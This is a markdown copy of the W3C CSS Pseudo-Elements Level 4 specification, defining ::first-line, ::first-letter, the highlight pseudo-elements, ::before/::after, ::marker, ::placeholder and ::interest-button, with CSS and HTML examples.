Pseudo-elements represent abstract elements of the document beyond those elements explicitly created by the document language. Since they are not restricted to fitting into the document tree, they can be used to select and style portions of the document that do not necessarily map to the document’s tree structure. For instance, the `::first-line` pseudo-element can select content on the first formatted line of an element *after* text wrapping, allowing just that line to be styled differently from the rest of the paragraph.

Each pseudo-element is associated with an originating element and has syntax of the form `::name-of-pseudo`. This module defines the pseudo-elements that exist in CSS and how they can be styled. For more information on pseudo-elements in general, and on their syntax and interaction with other selectors, see [SELECTORS-4].

> **Note:** As a reminder, pseudo-elements cannot be chained together unless explicitly allowed. For example, `::marker::before` is not allowed; but `::before::marker` is.

> **Note:** Level 4 is the first version of the CSS Pseudo specification under this name. It was branched from the Selectors 3 [SELECTORS-3] specification, and thus started at level 4, with the remainder of Selectors 3 becoming Selectors 4 [SELECTORS-4].

### 2.  Typographic Pseudo-elements {#css-pseudo-4:typographic-pseudos}

#### 2.1.  First-Line Text: the `::first-line` pseudo-element {#css-pseudo-4:first-line-pseudo}

The **::first-line** pseudo-element represents the contents of the first formatted line of its originating element.

> **Example:** The rule below means “change the letters of the first line of every `p` element to uppercase”:
>
> ```css
> p::first-line { text-transform: uppercase }
> ```
>
> The selector `p::first-line` does not match any real document element. It instead matches a pseudo-element that the user agent will automatically insert at the beginning of every `p` element.

> **Note:** Note that the length of the first line depends on a number of factors, including the width of the page, the font size, etc.

> **Example:** For example, given an ordinary HTML [HTML5] paragraph such as:
>
> ```markup
> <P>This is a somewhat long HTML paragraph
> that will be broken into several lines.
> The first line will be styled
> by the ‘::first-line’ pseudo-element.
> The other lines will be treated
> as ordinary lines in the paragraph.</P>
> ```
>
> Depending on the width of the element, its lines might be broken as follows:
>
> ```
> THIS IS A SOMEWHAT LONG HTML PARAGRAPH THAT
> will be broken into several lines. The first
> line will be styled by the ‘::first-line’
> pseudo-element. The other lines will be
> treated as ordinary lines in the paragraph.
> ```
>
> or alternately as follows:
>
> ```
> THIS IS A SOMEWHAT LONG
> HTML paragraph that will
> be broken into several
> lines. The first line will
> be styled by the
> ‘::first-line’ pseudo-
> element. The other lines
> will be treated as ordinary
> lines in the paragraph.
> ```

##### 2.1.1.  Finding the First Formatted Line {#css-pseudo-4:first-text-line}

In CSS, the `::first-line` pseudo-element can only have an effect when attached to a block container:

- The **first formatted line** of a block container that establishes an inline formatting context represents the inline-level content of its first line box.
- The first formatted line of a block container or multi-column container that contains block-level content (and is not a table wrapper box) is the first formatted line of its first in-flow block-level child. If no such line exists, it has no first formatted line.

> **Note:** The first formatted line can be an empty line. For example, the first line of the `p` in `<p><br>First…` doesn’t contain any letters. Thus the word “First” is not on the first formatted line, and will not be affected by `p::first-line`.

> **Note:** The first line of a block container that does not itself participate in a block formatting context cannot be the first formatted line of an ancestor element. Thus, in `<DIV><P STYLE="display: inline-block">Hello<BR>Goodbye</P> etcetera</DIV>` the first formatted line of the `DIV` is not the line “Hello”, but rather the line that contains that entire inline block.

When a first formatted line is represented by multiple `::first-line` pseudo-elements, they are nested in the same order as their originating elements. The inline-level contents of this line—​including its root inline box fragment—​are nested within the innermost `::first-line` pseudo-element.

> **Example:** Consider the following markup:
>
> ```markup
> <DIV>
>   <P>First paragraph</P>
>   <P>Second paragraph</P>
> </DIV>
> ```
>
> If we assume a fictional tag sequence to represent the elements’ `::first-line` pseudo-elements, it would be something like:
>
> ```markup
> <DIV>
>   <P><DIV::first-line><P::first-line>First paragraph</P::first-line></DIV::first-line></P>
>   <P><P::first-line>Second paragraph</P::first-line></P>
> </DIV>
> ```

##### 2.1.2.  Styling the `::first-line` Pseudo-element {#css-pseudo-4:first-line-styling}

The `::first-line` pseudo-element’s generated box behaves similar to that of an inline-level box, but with certain restrictions. The following CSS properties apply to a `::first-line` pseudo-element:

- all font properties (see [CSS-FONTS-4])
- the `color` and `opacity` properties (see [CSS-COLOR-4])
- all background properties (see [CSS-BACKGROUNDS-3])
- any typesetting properties that apply to inline elements (see [CSS-TEXT-4])
- all text decoration properties (see [CSS-TEXT-DECOR-4])
- the `ruby-position` property (see [CSS-RUBY-1])
- any inline layout properties that apply to inline elements (see [CSS-INLINE-3])
- any other properties defined to apply to `::first-line` by their respective specifications

User agents may apply other properties as well except for the following excluded properties:

- `writing-mode`
- `direction`
- `text-orientation`

> **Note:** Setting `line-height` on `::first-line` inherits to the fragment of the root inline box that wraps the contents of the first line, and therefore can both increase and decrease the height of the first line box.

##### 2.1.3.  Inheritance and the `::first-line` Pseudo-element {#css-pseudo-4:first-line-inheritance}

During CSS inheritance, the fragment of a child that occurs on the first line inherits any standard inherited properties—​except the properties excluded above—​from the `::first-line` pseudo-element. For all other properties, including all custom properties [CSS-VARIABLES-1], inheritance is from the non-pseudo parent. (The portion of a child element that does not occur on the first line always inherits from the non-pseudo parent.)

> **Example:** In the common case (of standard inherited CSS properties), inheritance into and from a `::first-line` pseudo-element can be understood by writing out a **fictional tag sequence** to represent `::first-line`. Consider the [earlier example](#css-pseudo-4:first-line-example); in case of the first rendering, the fictional tag sequence would be:
>
> ```markup
> <P><p::first-line>This is a somewhat long HTML paragraph
> that</p::first-line> will be broken into several lines.
> The first line will be styled
> by the ‘::first-line’ pseudo-element.
> The other lines will be treated
> as ordinary lines in the paragraph.</p>
> ```
>
> And in the case of the second rendering:
>
> ```markup
> <p><p::first-line>This is a somewhat long</p::first-line> HTML paragraph
> that will be broken into several lines.
> The first line will be styled
> by the ‘::first-line’ pseudo-element.
> The other lines will be treated
> as ordinary lines in the paragraph.</p>
> ```

> **Example:** If a pseudo-element breaks up a real element, the effect can often be described by a fictional tag sequence that closes and then re-opens the element. Suppose we mark up the earlier example with a `span` element encompassing the first sentence:
>
> ```markup
> <p><span>This is a somewhat long HTML paragraph
> that will be broken into several lines.</span>
> The first line will be styled
> by the ‘::first-line’ pseudo-element.
> The other lines will be treated
> as ordinary lines in the paragraph.</p>
> ```
>
> The effect of the first rendering would be similar to the following fictional tag sequence:
>
> ```markup
> <p><p::first-line><span>This is a somewhat long HTML paragraph
> that</span></p::first-line><span> will be broken into several lines.</span>
> The first line will be styled
> by the ‘::first-line’ pseudo-element.
> The other lines will be treated
> as ordinary lines in the paragraph.</p>
> ```

#### 2.2.  First-Letter Text: `::first-letter` pseudo-element and its `::prefix` and `::suffix` children {#css-pseudo-4:first-letter-pseudo}



The **::first-letter** pseudo-element represents the first Letter, Number, or Symbol (Unicode category `L*`, `N*`, or `S*`) typographic character unit on the first formatted line of its originating element (the **first letter**) as well as its associated punctuation. Collectively, this text is the **first-letter text**. The `::first-letter` pseudo-element can be used to create “initial caps” and “drop caps”, which are common typographic effects.

> **Example:** For example, the following rule creates a 2-line drop-letter on every paragraph following a level-2 header, using the `initial-letter` property defined in [CSS-INLINE-3]:
>
> ```css
> h2 + p::first-letter { initial-letter: 3; }
> ```

> **Note:** The first letter may in fact be a digit, e.g., the “6” in “67 million dollars is a lot of money.”

To allow independent styling of the first letter itself and its adjacent punctuation, associated preceding punctuation is represented by the **::prefix** sub-pseudo-element of the `::first-letter` pseudo-element (`::first-letter::prefix`); and associated following punctuation is represented by the **::suffix** sub-pseudo-element of the `::first-letter` pseudo-element (`::first-letter::suffix`). See [§ 2.2.1 First Letters and Associated Punctuation](#css-pseudo-4:first-letter-pattern), below.

##### 2.2.1.  First Letters and Associated Punctuation {#css-pseudo-4:first-letter-pattern}

As explained in [CSS Text 3 § 1.4 Characters and Letters](#css-text-4:characters), a typographic character unit can include more than one Unicode codepoint. For example, combining characters must be kept with their base character. Also, languages may have additional rules about how to treat certain letter combinations. In Dutch, for example, if the letter combination "ij" appears at the beginning of an element, both letters should be considered within the `::first-letter` pseudo-element. [UAX29] When selecting the first letter, the UA should tailor its definition of typographic character unit to reflect the first-letter traditions of the `::first-letter` pseudo-element’s *containing block*’s content language.

Preceding and following punctuation must also be included as part of the first-letter text in the `::first-letter` pseudo-element as follows:

- All punctuation—​i.e, characters that belong to the Punctuation (`P*`) Unicode general category [UAX44]—​that precedes the first letter, as well as any intervening typographic space—​characters belonging to the `Zs` Unicode general category [UAX44] *other than* U+3000 IDEOGRAPHIC SPACE.
- Any punctuation other than opening punctuation and dashes—​i.e. characters that belong to the Punctuation (`P*`) Unicode general category, excluding Open Punctuation (`Ps`) and Dash Punctuation (`Pd`)—​that follows the first letter, as well as any intervening typographic space—​characters belonging to the `Zs` Unicode general category [UAX44] *other than* U+3000 IDEOGRAPHIC SPACE or a word separator.

> **Note:** Informally, the first-letter text’s pattern here can be roughly (ignoring the exclusions from `Zs`) represented as a “regular expression” `(P (Zs|P)*)? (L|N|S) ((Zs|P−(Ps|Pd))* (P−(Ps|Pd))?`—​or, alternatively, `([P] [Zs P]*)? [L N S] ([Zs [P--[Ps Pd]]]* [P--[Ps Pd]])?`—​where the Unicode category abbreviation represents the set of all typographic character units belonging to that category.

See [CSS Text 3 § 1.4 Characters and Letters](#css-text-4:characters) and [CSS Text 3 § E Characters and Properties](#css-text-4:character-properties) for more information on typographic character units and their Unicode properties. [CSS-TEXT-3]

##### 2.2.2.  Finding the First-Letter Text {#css-pseudo-4:first-letter-application}

As with `::first-line`, the `::first-letter` pseudo-element can only have an effect when attached to a block container. Its first-letter text is the first such inline-level content participating in the inline formatting context of its originating element’s first formatted line, if it is not preceded by any other in-flow content (such as images or inline tables) on its line.

For this purpose, any marker boxes are ignored, as if they were out-of-flow. However, if an element has in-flow `::before` or `::after` content, the first-letter text is selected from the content of the element *including* that generated content.

> **Example:** After the rule `p::before {content: "Note: "}`, the selector `p::first-letter` matches the "N" of "Note".

If no qualifying text exists, then there is no first-letter text and no `::first-letter` pseudo-element.

> **Note:** When the first formatted line is empty, `::first-letter` will not match anything. For example, in this HTML fragment: `<p><br>First...` the first line doesn’t contain any letters, so `::first-letter` doesn’t match anything. In particular, it does not match the “F” of “First”, which is on the second line.

> **Note:** As with `::first-line`, the first-letter text of a block container that does not participate in a block formatting context cannot be the first-letter text of an ancestor element. Thus, in `<DIV><P STYLE="display: inline-block">Hello<BR>Goodbye</P> etcetera</DIV>` the first letter of the `DIV` is not the letter “H”. In fact, the `DIV` doesn’t have a first letter.

Any portion of the first-letter text that is wrapped to the next line no longer forms part of the `::first-letter` pseudo-element.

##### 2.2.3.  Inheritance and Box Tree Structure of the First-Letter Pseudo-elements {#css-pseudo-4:first-letter-tree}

The `::first-letter` pseudo-element is wrapped immediately around the first-letter text it represents, even if that text is in a descendant. When a first-letter text is represented by multiple `::first-letter` pseudo-elements, they are nested in the same order as their originating elements. Inheritance behaves accordingly.

> **Example:** Consider the following markup:
>
> ```markup
> <div>
>   <p><span>The first few words</span>
>   and the rest of the paragraph.
> </div>
> ```
>
> If we assume a fictional tag sequence to represent the elements’ `::first-letter` pseudo-elements, it would be something like:
>
> ```
> <div>
>   <p><span><div::first-letter><p::first-letter>T</…></…>he first few words</span>
>   and the rest of the paragraph.
> </div>
> ```

If any `::first-letter::prefix` or `::first-letter::suffix` pseudo-elements exist, they are nested within the innermost `::first-letter`, and otherwise interpreted similar to `::first-letter` itself.

> **Example:** Consider the following markup:
>
> ```markup
> <div>
>   <p><span>“The first few words</span>
>   and the rest of the quotation.
> </div>
> ```
>
> If we assume a fictional tag sequence to represent the elements’ `::first-letter` pseudo-elements, it would be something like:
>
> ```
> <div>
>   <p><span><div::first-letter><p::first-letter><div::first-letter::prefix><p::first-letter::prefix>“</…></…>T</…></…>he first few words</span>
>   and the rest of the paragraph.
> </div>
> ```

If the characters that would form the first-letter text are not all in the same element (as the `‘T` in `<p>‘<em>T...`), the user agent may create the `::first-letter` pseudo-element (and its `::prefix` or `::suffix` sub-elements, if any) from one of the elements, or all elements, or simply not create the pseudo-element(s). Additionally, if the first-letter text is not at the start of the line (for example due to bidirectional reordering, or due to a list item marker with `list-style-position: inside`), then the user agent is not required to create the pseudo-element(s).

A `::first-letter` pseudo-element is contained within any `::first-line` pseudo-elements, and thus inherits (potentially indirectly) from `::first-line`, the same as any inline box on the same line.

##### 2.2.4.  Styling the First-Letter Pseudo-elements {#css-pseudo-4:first-letter-styling}

In CSS a `::first-letter` pseudo-element (and its `::prefix` and `::suffix` sub-elements) is similar to an inline box. The following properties apply to `::first-letter`, `::first-letter::prefix`, and `::first-letter::suffix` pseudo-elements:

- all font properties (see [CSS-FONTS-4])
- the `color` and `opacity` properties (see [CSS-COLOR-4])
- all background properties (see [CSS-BACKGROUNDS-4])
- any typesetting properties that apply to inline elements (see [CSS-TEXT-4])
- all text decoration properties (see [CSS-TEXT-DECOR-4])
- any inline layout properties that apply to inline elements (see [CSS-INLINE-3])
- margin and padding properties (see [CSS22])
- border properties and `box-shadow` (see [CSS-BACKGROUNDS-4])
- any other properties defined to apply to `::first-letter` by their respective specifications

User agents may apply other properties as well. However, in no case may the application of such unlisted properties to `::first-letter` change what first-letter text is represented by that `::first-letter`.

> **Note:** In previous levels of CSS, user agents were allowed to choose a line height, width, and height based on the shape of the letter, to approximate font sizes; and to take the glyph outline into account when performing layout. The possibility of such loosely-defined magic has been intentionally removed, as it proved to be a poor solution for the intended use case (drop caps and raised caps), yet caused interoperability problems. See `initial-letter` in [CSS-INLINE-3] for explicitly handling drop caps and raised caps.

### 3.  Highlight Pseudo-elements {#css-pseudo-4:highlight-pseudos}

#### 3.1.  Selecting Highlighted Content: the `::selection`, `::search-text`, `::target-text`, `::spelling-error`, `::grammar-error`, and `::highlight()` pseudo-elements {#css-pseudo-4:highlight-selectors}

The **highlight pseudo-elements** represent portions of a document that have been given a particular status and are typically styled differently to indicate that status to the user. For example, selected portions of the document are typically highlighted (given alternate background and foreground colors, or a color wash) to indicate their selected status. The following highlight pseudo-elements are defined:

****::selection****

: The `::selection` pseudo-element represents the portion of a document that has been selected as the target or object of some possible future user-agent operation(s). It applies, for example, to selected text within an editable text field, which would be copied by a copy operation or replaced by a paste operation.

****::search-text****

: The `::search-text` pseudo-element represents text identified by the user agent’s find-in-page feature. Since not all UAs style matched text in ways expressible with the highlight pseudo-elements, this pseudo-element is optional to implement.

  The `:current` pseudo-class (but not `::current()`) may be combined with `::search-text` to represent the currently focused match instance. The `:past` and `:future` pseudo-classes are reserved for analogous use in the future. Any unsupported combination of these pseudo-classes with `::search-text` *must* be treated as invalid.

****::target-text****

: The `::target-text` pseudo-element represents text directly targeted by the document URL’s fragment, if any.

  > **Note:** When a URL fragment targets an element, the `:target` pseudo-element can be used to select it, but `::target-text` does not match anything. It only matches text that is itself targeted by the [fragment].

****::spelling-error****

: The `::spelling-error` pseudo-element represents a portion of text that has been flagged by the user agent as misspelled.

****::grammar-error****

: The `::grammar-error` pseudo-element represents a portion of text that has been flagged by the user agent as grammatically incorrect.

****::highlight(`<highlight-name-selector>`)****

: The `::highlight()` functional pseudo-element represents the portion of the originating element associated with the custom highlights selected by its argument:

  ```css
  <highlight-name-selector> = '*' | <custom-ident>
  ```

  A `<custom-ident>` argument selects the single custom highlight whose custom highlight name is that identifier. The `*` argument selects every custom highlight, regardless of its custom highlight name.

  The specificity of a `::highlight()` selector with a `<custom-ident>` argument is equivalent to a type selector. The specificity of a `::highlight()` selector with a `*` argument is zero.

  See [CSS-HIGHLIGHT-API-1] for details.

The highlight pseudo-elements do not necessarily fit into the element tree, and can arbitrarily cross element boundaries without honoring its nesting structure.

#### 3.2.  Styling Highlights {#css-pseudo-4:highlight-styling}

The highlight pseudo-elements can only be styled by a limited set of properties that do not affect layout and can be applied performantly in a highly dynamic environment—​and additionally (to ensure interoperability) whose rendering within the [required area](#css-pseudo-4:highlight-bounds) is not dependent on the exact (UA-determined) bounds of the highlight overlay.

The following properties apply to the highlight pseudo-elements:

- `color`
- `background-color`
- `text-decoration` and its associated properties (including `text-underline-position` and `text-underline-offset`)
- `text-shadow`
- `stroke-color`, `fill-color`, and `stroke-width`
- custom properties [CSS-VARIABLES-1]

> **Issue:** Are there any other properties that should be included here?

> **Note:** Historically (and at the time of writing) only `color` and `background-color` have been interoperably supported.

> **Note:** The `color` property sets the color of both the text and all line decorations (underline, overline, line-through) and emphasis marks (`text-emphasis`) applied to the text by the originating element and its ancestors and descendants.

For any properties not listed above, but which are required to resolve the values of applicable properties, their computed values are copied from those of the originating element, ignoring any values specified on the highlight pseudo-element itself. For example:

- `forced-color-adjust` (used in forced colors mode to resolve colors) and `color-scheme` (used to resolve `<system-color>` values)
- `font-size`, `font-family`, etc. (used to resolve `em` and other font-relative lengths).
- `line-height` (used to resolve `lh` units)
- custom properties [CSS-VARIABLES-1] (used in `var()` substitutions)

If, for a given highlight pseudo-element, there are colors specified in the author origin, those colors must be respected as specified; i.e. the UA must not apply any extra processing (such as using semi-transparent washes). However if there are no colors in the author origin, the UA may apply additional color processing.

> **Note:** This is to ensure that color contrast is preserved across all user agents interpreting a given author stylesheet.

Vendor-prefixed properties such as `-webkit-text-fill-color` are not applicable to the highlight pseudo-elements.

#### 3.3.  Default UA Styles {#css-pseudo-4:highlight-ua-styles}

The following additions are recommended for the default UA stylesheet:

```css
/* Represent default spelling/grammar error styling in an adjustable way */
:root::spelling-error { text-decoration: spelling-error; }
:root::grammar-error  { text-decoration: grammar-error; }
```

Some highlight pseudo-elements should have **paired default highlight colors**—​a default `color` and `background-color` provided by the UA that are either used or overridden together, see [§ 3.3.1 Paired Defaults](#css-pseudo-4:paired-defaults). For `::selection` they should correspond to `HighlightText` and `Highlight`, while for `::target-text` they should correspond to `MarkText` and `Mark`.

UAs may apply additional effects to enhance the presentation of highlighted content, for example dimming content other than the highlighted text or transitioning out a highlight style based on user interactions or timing. These are not controlled by CSS.

> **Issue:** UA tweaks to the presentation of highlights in ways that *are* controlled by CSS are currently under discussion in [Issue 6853](https://github.com/w3c/csswg-drafts/issues/6853).

##### 3.3.1.  Paired Defaults {#css-pseudo-4:paired-defaults}

For compatibility reasons, paired default highlight colors must only be used when neither `color` nor `background-color` yield a cascaded value from the author origin (or inherit their value from the author origin). When a highlight color is `revert` or `revert-layer`, the origin *after* rolling back the cascade determines the cascaded value’s origin.

> **Note:** Because this rule is for compatibility reasons, it does not apply to other similar properties like `fill-color` or `stroke-color`.

> **Example:** For example, given the following markup:
>
> ```markup
> <p>Highlight this <em>and this</em>.</p>
> ```
>
> Any of the following rules would suppress the default `background-color` for `::selection` in the `<em>` element if given by the author:
>
> ```css
> em::selection { color: initial; }
> em::selection { color: inherit; }
> em::selection { color: unset; }
> em::selection { color: green; }
> p::selection { color: green; }
> ```

#### 3.4.  Area of a Highlight {#css-pseudo-4:highlight-bounds}

For each type of highlighting (see [§ 3.1 Selecting Highlighted Content: the ::selection, ::search-text, ::target-text, ::spelling-error, ::grammar-error, and ::highlight() pseudo-elements](#css-pseudo-4:highlight-selectors)) there exists a single **highlight overlay** for the entire document, the active portions of which are represented by the corresponding highlight pseudo-element. Each box owns the piece of the overlay corresponding to any text or replaced content directly contained by the box.

- For text, the corresponding overlay must cover at least the entire em box and may extend further above/below the em box to the line box edges. Spacing between two characters may also be part of the overlay area, in which case it belongs to the innermost element that contains both characters and is selected when both characters are selected.
- For replaced content, the associated overlay must cover at least the entire replaced object, and may extend outward to include the element’s entire content box.
- The overlay may also include other areas within the border-box of an element; in this case, those areas belong to the innermost such element that contains the area.
- For an inline-level box, the overlay may extend outside its border edges in the block axis as far as the edges of its line box.

> **Issue:** See [F2F minutes](http://lists.w3.org/Archives/Public/www-style/2008Nov/0022.html), [dbaron’s message](http://lists.w3.org/Archives/Public/www-style/2008Oct/0268.html), [Daniel’s thread](http://lists.w3.org/Archives/Public/www-style/2010May/0247.html), [Gecko notes](http://lists.w3.org/Archives/Public/www-style/2010May/0261.html), [Opera notes](http://lists.w3.org/Archives/Public/www-style/2010May/0366.html), [Webkit notes](http://lists.w3.org/Archives/Public/www-style/2010May/0280.html)

> **Issue:** Not sure if this is the correct way of describing the way things work.

#### 3.5.  Cascading and Per-Element Highlight Styles {#css-pseudo-4:highlight-cascade}

Each element draws its own active portions of the highlight overlays, which receives the styles specified by the corresponding highlight pseudo-element styles for which that element is the originating element. When multiple styles conflict, the winning style is determined by the cascade.

When any supported property is not given a value by the cascade, or given a value of `inherit` or `unset`, its specified value is determined by inheritance from the corresponding highlight pseudo-element of its originating element’s parent element. This occurs regardless of whether that property is an inherited property.

Additionally, for highlight pseudo-elements originating from the root element the inherited value of `color` is `currentColor`, not the initial value.

All custom properties inherit from the originating element, regardless of whether that property is a custom property that is registered to inherit or not.

> **Example:** For example, if the following rules were applied:
>
> ```css
> p::selection      { color: yellow; background: green; }
> p > em::selection { color: orange; }
> em::selection     { color:    red; }
> ```
>
> to the following markup:
>
> ```markup
> <p>Highlight this <em>and this</em>.</p>
> ```
>
> The selection highlight would be green throughout, with yellow text outside the `<em>` element and orange text inside it.

> **Advisement:** Authors wanting multiple selections styles should use **`:root::selection`** for their document-wide selection style, since this will allow clean overriding in descendants. `::selection` alone applies to every element in the tree, overriding the more specific styles of any ancestors.

> **Example:** For example, if an author specified
>
> ```css
> ::selection          { background: blue; }
> p.warning::selection { background:  red; }
> ```
>
> and the document included
>
> ```markup
> <p class="warning">Some <strong>very important information</strong></p>
> ```
>
> The highlight would be blue over “very important information” because the `<strong>` element´s `::selection` also matches the `::selection { background: blue; }` rule. (Remember that `*` is implied when a tag selector is missing.) The style rules that would give the intended behavior (red highlight within `p.warning`, blue elsewhere) are
>
> ```css
> :root::selection     { background: blue; }
> p.warning::selection { background:  red; }
> ```

The following example demonstrates the inheritance of custom properties.

> **Example:** For example, if an author specified
>
> ```css
> :root {
>    --background-color: green;
>    --decoration-thickness: 10px;
>    --decoration-color: purple;
>  }
>  ::selection {
>    --decoration-thickness: 1px;
>    --decoration-color: green;
>  }
>  div::selection {
>    --decoration-color: blue;
>    background-color: var(--background-color, red);
>    text-decoration-line: underline;
>    text-decoration-style: line;
>    text-decoration-thickness: var(--decoration-thickness, 5px);
>    text-decoration-color: var(--decoration-color, red);
>  }
> ```
>
> The universal `::selection` uses the user-agent’s default styling because it only defines custom properties, with no properties that influence the appearance. A div’s selection highlight would apply a green background to the selected content, with a 10px thick blue underline. Since `--background-color` and `--decoration-thickness` custom properties are not specified on the `div::selection` peudo-element, they are inherited from its originating `div` element, which itself inherits the custom properties from the root. However since `--decoration-color` is specified on the `div::selection` itself, its value from the originating element is not used.

> **Note:** This behavior allows control of selection with custom properties in a way that is compatible with pre-existing implementations.

#### 3.6.  Painting the Highlight {#css-pseudo-4:highlight-painting}

##### 3.6.1.  Backgrounds {#css-pseudo-4:highlight-backgrounds}

Each highlight pseudo-element draws its background over the corresponding portion of the highlight overlay, painting it immediately below any positioned descendants (i.e. just before step 8 in [CSS2.2§E.2](#css2:painting-order)). The `::selection` overlay is drawn over the `::target-text` overlay which is drawn over the `::spelling-error` overlay which is drawn over the `::grammar-error` overlay which is drawn over the `::highlight` overlays. The `::search-text` overlay is drawn directly over or below the `:selection` overlay depending on the UA, and drawn over all other overlays.

##### 3.6.2.  Shadows {#css-pseudo-4:highlight-shadows}

Any `text-shadow` applying to a highlight pseudo-element is drawn over its corresponding highlight overlay background. Such text shadows also stack over each other (and over any original `text-shadow` applied to the text and its decorations, which continues to apply).

> **Note:** Since each highlight overlay background is drawn over any shadows belonging to the layer(s) below, a highlight overlay background can obscure lower-level shadows.

##### 3.6.3.  Text and Text Decorations {#css-pseudo-4:highlight-text}

A highlight pseudo-element suppresses the normal drawing of any associated text, and the text decorations (other than shadows) that had been applied to that text. Instead the topmost active highlight overlay redraws that text (and those decorations) over all the highlight overlay backgrounds using that highlight’s own `color`.

> **Note:** This means that unlike shadows, line decorations and emphasis marks won’t be obscured by any highlight overlay backgrounds that are drawn for the associated text.

For this purpose, `currentColor` on a highlight pseudo-element’s `color` property represents the `color` of the next *active* highlight pseudo-element layer below, falling back finally to the colors that would otherwise have been used (those applied by the originating element or an intervening pseudo-element such as `::first-line` or `::first-letter`).

> **Note:** The element’s own text decorations (both [line decorations](#css-text-decor-4:line-decoration) and [emphasis marks](#css-text-decor-4:emphasis-marks)) are thus drawn in the pseudo-element’s own `color` when that is not `currentColor`, regardless of their original color or fill specifications.

Any text decorations introduced by each highlight pseudo-element are stacked in the same order as their backgrounds over the text’s original decorations and are all drawn, each decoration in its own color. The normal painting order applies, so as per [CSS2 Appendix E](#css2:painting-order), all underlines are drawn below overlines which are drawn below the text which is drawn below any line-throughs. However, text decorations applied by `::selection` may instead all be drawn along with the text as a topmost set of layers above all other decorations.

> **Example:** For example, assuming the original text has an underline and a strike-through, that `::selection` applies an underline and `::target-text` applies both overline and strike-through, the following are both conformant painting orders:
>
> 1. original underline
> 2. `::selection` underline
> 3. `::target-text` overline
> 4. `::selection`-colored text
> 5. original strike-through
> 6. `::target-text` strike-through
>
> 1. original underline
> 2. `::target-text` overline
> 3. original strike-through
> 4. `::target-text` strike-through
> 5. `::selection` underline
> 6. `::selection`-colored text

[Line decorations](#css-text-decor-4:line-decoration) introduced by highlight pseudo-elements apply only to the text associated with their originating element, and are not propagated to descendants except via property inheritance (as described [above](#css-pseudo-4:highlight-cascade)).

> **Note:** Unlike the originating element’s own decorations, decorations declared on a highlight pseudo-element propagate to out-of-flow elements and inline blocks, with thickness and position varying between descendants.

##### 3.6.4.  Replaced Elements {#css-pseudo-4:highlight-replaced}

For non-replaced content, the UA must honor the `color` and `background-color` (including their alpha channels) as specified. However, for replaced content, the UA should create a semi-transparent wash to coat the content so that it can show through the selection. This wash should be of the specified `background-color` if that is not `transparent`, else of the specified `color`; however the UA may adjust the alpha channel.

#### 3.7.  Security Considerations for Highlighting {#css-pseudo-4:highlight-security}

Because the styling of spelling and grammar errors can leak information about the contents of a user’s dictionary (which can include the user’s name and even includes the contents of their address book!) UAs that implement `::spelling-error` and `::grammar-error` must mitigate the following attacks:

- Pages attempting to directly read the styling of highlighted segments.
- Pages attempting to track performance impacts of styling highlighted segments via programatic modification of text fields.

### 4.  Tree-Abiding Pseudo-elements {#css-pseudo-4:treelike}

**Tree-abiding pseudo-elements** always fit within the box tree. They inherit any inheritable properties from their originating element; non-inheritable properties take their initial values as usual. [CSS-CASCADE-4] A subset of these are the **fully styleable pseudo-elements**; all properties that apply to a real element also apply to a fully styleable pseudo-element.

#### 4.1.  Generated Content Pseudo-elements: `::before` and `::after` {#css-pseudo-4:generated-content}

When their computed `content` value is not `none`, these pseudo-elements generate boxes as if they were immediate children of their originating element, with content as specified by `content`.

****::before****

: Represents a styleable child pseudo-element immediately before the originating element’s actual content.

****::after****

: Represents a styleable child pseudo-element immediately after the originating element’s actual content.

Both `::before` and `::after` are fully styleable pseudo-elements: there is no restriction on what properties apply to them.

> **Example:** For example, the following rule inserts the string “Note: ” before the content of every `<p>` element whose `class` attribute has the value `note`:
>
> ```css
> p.note::before { content: "Note: " }
> ```
>
> Since the initial value of `display` is `inline`, this will generate an inline box. Like other inline children of `<p>`, it will participate in `<p>`’s inline formatting context, potentially sharing a line with other content.

As with the content of regular elements, the generated content of `::before` and `:after` pseudo-elements can form part of any `::first-line` and `::first-letter` pseudo-elements applied to its originating element. Also as with regular child elements, the `::before` and `::after` pseudo-elements are suppressed when their parent, the originating element, is replaced.

#### 4.2.  List Markers: the `::marker` pseudo-element {#css-pseudo-4:marker-pseudo}

The **::marker** pseudo-element represents the automatically generated marker box of a list item. (See [CSS-DISPLAY-3] and [CSS-LISTS-3].)

The contents of a `::marker` are ignored (not selected) by `::first-letter`.

> **Issue:** Interaction of `::marker` and `::first-line` is currently under discussion in [Issue 4506](https://github.com/w3c/csswg-drafts/issues/4506).

`::marker` is a tree-abiding pseudo-element, but is not fully styleable; only a limited set of properties can be used on the `::marker` pseudo-element. This list is defined in [CSS Lists 3 § 3.1.1 Properties Applying to ::marker](#css-lists-3:marker-properties).

The `::before::marker` or `::after::marker` selectors are valid and can be used to represent the marker boxes of `::before` or `::after` pseudo-elements that happen to be list items. However `::marker::marker` is invalid, and the computed value of `display` on `::marker` always loses any `list-item` aspect.

> **Issue:** Should `::marker` also have `::prefix` and `::suffix` sub-elements?

#### 4.3.  Placeholder Input: the `::placeholder` pseudo-element {#css-pseudo-4:placeholder-pseudo}

The **::placeholder** pseudo-element represents placeholder text in an input field: text that represents the input and provides a hint to the user on how to fill out the form. For example, a date-input field might have the placeholder text “YYYY/MM/DD” to clarify that numeric dates are to be entered in year-month-day order. It is a tree-abiding pseudo-element.

> **Example:** For example, according to the semantics of [HTML] the `placeholder` attribute on the `input` and `textarea` elements provide placeholder text. The `::placeholder` pseudo-element represents such text when it is displayed.

> **Note:** There also exists a `:placeholder-shown` pseudo-*class*, which applies to (real) elements while they are showing placeholder text, and can be used to style such elements specially. `::placeholder` specifically represents the placeholder *text*, and is thus relatively limited in its abilities.

All properties that apply to the `::first-line` pseudo-element also apply to the `::placeholder` pseudo-element, except those defined in [CSS-INLINE-3].

In interactive media, placeholder text is often hidden once the user has entered input; however this is not a requirement, and both the input value and the placeholder text may be visible simultaneously. The exact behavior is UA-defined. Note that in static media (such as print) placeholder text will be present even after the user has entered input.

> **Issue:** Authors seem to want `text-align` on the list of supported properties. See e.g. [comments here](http://css-tricks.com/almanac/selectors/p/placeholder/).

> **Note:** It’s been requested that `::placeholder` also refer to a placeholder which has a corresponding element in the element tree. It’s not clear how this should work, but it may be worth doing. See [Issue 2417](https://github.com/w3c/csswg-drafts/issues/2517).

#### 4.4.  Interest Indicators: the `::interest-button` pseudo-element {#css-pseudo-4:interest-button-pseudo}

The **::interest-button** pseudo-element represents a button which, when pressed, shows interest in the originating element. This pseudo-element only exists on valid interest sources. (See `interest-delay`, `:interest-source`, and `:interest-target` for more discussion of this feature, and the HTML `interestfor` attribute.)

